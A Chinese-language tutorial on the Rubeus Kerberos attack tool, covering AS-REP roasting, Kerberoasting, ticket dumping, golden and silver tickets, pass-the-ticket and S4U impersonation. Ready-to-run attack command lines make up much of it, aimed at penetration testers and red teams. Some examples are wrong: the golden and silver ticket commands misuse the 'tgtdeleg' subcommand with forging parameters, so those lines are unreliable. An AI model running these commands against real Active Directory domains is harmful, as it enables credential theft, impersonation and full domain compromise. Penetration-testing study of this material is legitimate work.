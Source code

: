 ### Rubeus 工具介绍

Rubeus 是一个强大的 Kerberos 操作工具，由威胁猎人和安全研究人员开发，用于在 Windows 环境中进行 Kerberos 相关的攻击和操作。它可以帮助渗透测试人员和红队成员执行多种与 Kerberos 相关的攻击，包括票据伪造、票据导出、票据请求、票据续订、票据清理等操作。Rubeus 由 C# 编写，可以作为独立的可执行文件运行，也可以作为内存加载的程序集使用。

### 主要功能

1. **AS-REP Roasting**：
   - 针对不需要预身份验证的账户进行票据请求和破解。

2. **Kerberoasting**：
   - 请求和导出服务票据，并通过离线破解获取服务账户的密码。

3. **黄金票据（Golden Ticket）攻击**：
   - 伪造 TGT（Ticket Granting Ticket），以获得域内的任意权限。

4. **银票据（Silver Ticket）攻击**：
   - 伪造 TGS（Ticket Granting Service）票据，以获得对特定服务的访问权限。

5. **票据导入和导出**：
   - 从内存或文件中导入和导出 Kerberos 票据。

6. **票据续订**：
   - 续订现有的 Kerberos 票据，以延长其有效期。

7. **S4U（Service for User）**：
   - 使用 S4U2Self 和 S4U2Proxy 协议请求票据，以代表其他用户进行操作。

8. **Pass-the-Ticket 攻击**：
   - 利用导入的票据进行身份验证和访问资源。

### 安装 Rubeus

Rubeus 可以从 GitHub 仓库下载源代码并进行编译，或者直接下载已编译的可执行文件。

#### 1. 从源代码编译

- 克隆 Rubeus 仓库：
  ```bash
  git clone https://github.com/GhostPack/Rubeus
  cd Rubeus
  ```

- 使用 Visual Studio 或 MSBuild 编译项目：
  ```bash
  msbuild Rubeus.sln
  ```

#### 2. 下载已编译的可执行文件

- 访问 [Rubeus 的发布页面](https://github.com/GhostPack/Rubeus/releases) 下载最新的已编译版本。

### 使用方法

Rubeus 提供了丰富的命令和参数，可以通过命令行执行各种操作。以下是一些常见的使用场景和命令示例：

#### 1. AS-REP Roasting

针对不需要预身份验证的账户请求票据并导出进行破解：

```bash
Rubeus.exe asreproast
```

#### 2. Kerberoasting

请求服务票据并导出以进行离线破解：

```bash
Rubeus.exe kerberoast
```

将结果导出到文件：

```bash
Rubeus.exe kerberoast /outfile:hashes.txt
```

#### 3. 票据导入和导出

从文件导入票据：

```bash
Rubeus.exe ptt /ticket:base64_ticket_string
```

从内存导出所有票据：

```bash
Rubeus.exe dump
```

导出到文件：

```bash
Rubeus.exe dump /luid:0x3e7 /outfile:tickets.kirbi
```

#### 4. 票据续订

续订现有票据：

```bash
Rubeus.exe renew /ticket:base64_ticket_string
```

#### 5. 黄金票据（Golden Ticket）

生成和注入黄金票据：

```bash
Rubeus.exe tgtdeleg /user:Administrator /rc4:hash /domain:DOMAIN /sid:S-1-5-21-... /target:dc.domain.com
```

#### 6. 银票据（Silver Ticket）

生成和注入银票据：

```bash
Rubeus.exe tgtdeleg /user:Administrator /rc4:hash /domain:DOMAIN /sid:S-1-5-21-... /service:cifs /target:server.domain.com
```

#### 7. Pass-the-Ticket 攻击

导入票据并执行 Pass-the-Ticket 攻击：

```bash
Rubeus.exe ptt /ticket:base64_ticket_string
```

然后可以使用普通命令访问资源，例如：

```bash
dir \\target-server\c$
```

### 高级用法

Rubeus 提供了许多高级功能，可以通过组合不同的命令和参数来实现复杂的攻击场景。以下是一些高级用法示例：

#### 使用 S4U 协议请求票据

使用 S4U2Self 协议请求票据：

```bash
Rubeus.exe s4u /user:TARGET_USER /rc4:HASH /impersonateuser:IMPERSONATE_USER /domain:DOMAIN /sid:DOMAIN_SID /target:dc.domain.com
```

使用 S4U2Proxy 协议请求票据：

```bash
Rubeus.exe s4u /user:TARGET_USER /rc4:HASH /impersonateuser:IMPERSONATE_USER /msdsspn:cifs/target-server.domain.com /domain:DOMAIN /sid:DOMAIN_SID /target:dc.domain.com
```

### 结论

Rubeus 是一款功能强大的 Kerberos 操作工具，通过其丰富的命令和参数，渗透测试人员和红队成员可以在复杂的 Active Directory 环境中执行多种 Kerberos 相关的攻击和操作。熟练掌握 Rubeus 的使用，可以显著提升在 AD 环境中的渗透能力和效率。